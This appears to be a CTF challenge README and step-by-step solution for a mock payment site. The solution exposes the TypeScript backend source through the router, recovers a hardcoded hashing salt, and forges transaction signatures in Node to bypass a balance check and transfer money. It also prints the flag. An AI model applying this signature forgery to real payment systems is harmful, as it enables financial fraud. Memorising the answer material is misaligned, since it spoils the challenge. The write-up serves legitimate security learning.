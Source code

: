 # PayMeYourMoney
PayPal'ish web CTF challenge.

## Description:

A successful deal is the one where your money always reaches its destination. That is why you should to use our payment system! We **type of** love using new technologies there. For sure, you'll love it!

## Solution:
1) There is a hint the website's footer:
```
We type of love using new technologies...
```
It refers to **TypeScript**, which is compiled strongly typed JavaScript.

2) We know that TypeScript uses **.ts** file extensions. So, we check if the router was configured properly:
```
http://127.0.0.1:2012/index.ts
```
Gotcha! Now we have backend's sources!

3) Let's invistigate **the router**. We have its path from index.ts:
```
http://127.0.0.1:2012/components/app/controllers/router.ts
```

4) It looks like the only check for user's balance is in ```router.post("/confirm"...```:
```TypeScript
if (+amount > card.balance) {
    new StatusView("Not enough money!", "Sorry, but you can not give more than you have...").render(response);
    return;
}
```

But the actual transaction happens in ```router.post("/pay"...```!

5) We cannot simply call */pay*, because it checks for a validation hash sum generated by */confirm*. But since we have its sources, we are able to generate the transaction signature ourselves!
```TypeScript
const hasher = Crypto.createHash("sha256");
const hash = hasher.update(
    (+from + +to).toString() + to.toString() + card.transactions +
    amount + "7h15_15_7h3_50l71357_50l7_y0u_h4v3_3v3r_533n!"
).digest("hex");
```

6) Let's try it. Firstly, we create a new account. Then, we add another card to it. (We can enable **Add Card** button by inspecting the HTML element).
```HTML
<form action="/addcard" method="post">
    <input type="hidden" name="name" value="Personal Card">
    <button class="add-card">Add Card</button>
</form>
```
You can even change the card's name if you want to.

7) Remembering the new card's ID(in our example it's **8797 1237 1586 5698**), we go to the **transfer** page. Let us send some money to our new card!

8)  Now we have this form:
```HTML
<form action="/pay" method="post">
    <input type="hidden" name="from" value="9875910160063706">
    <input type="hidden" name="to" value="8797123715865698">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="validation" value="d661800d00a65f27fb942cdfb44a4831b6c25e30a2d38ae3918467bed43e72ab">
    <button type="submit">Confirm</button>
</form>
```

Here we change the amount and validation using the hash function. Let it be 9,999,999.
```JavaScript
const c = require("crypto");
const hasher = c.createHash("sha256");
const hash = hasher.update(
    (+"9875910160063706" + +"8797123715865698").toString() + "8797123715865698".toString() + "0" +
    "9999999" + "7h15_15_7h3_50l71357_50l7_y0u_h4v3_3v3r_533n!"
).digest("hex");
```
Note, that we set ```card.transactions``` to ```0``` since it was a newly created card and it does not have any transactions yet.
```bash
> hash
'25b580249777fb6f780d9d02388e77ea11d0d926e21516ee86a2a01c9b969631'
```

1) Now we send the modified form:
```HTML
<input type="hidden" name="amount" value="9999999">
<input type="hidden" name="validation" value="25b580249777fb6f780d9d02388e77ea11d0d926e21516ee86a2a01c9b969631">
```

10) Success!
You successfuly transfered 9999999!

11)  To get the flag you should go to **FlagsStore**. It can be found in *Advertisements Section* in the right bottom of the *profile* page.

12) Now we have enough money to buy the flag!
```
You did it!
Enjoy your flag: ELON{4lw4y5_pr073c_y0ur_5rc_4nd_7r4n54c710n5}.
```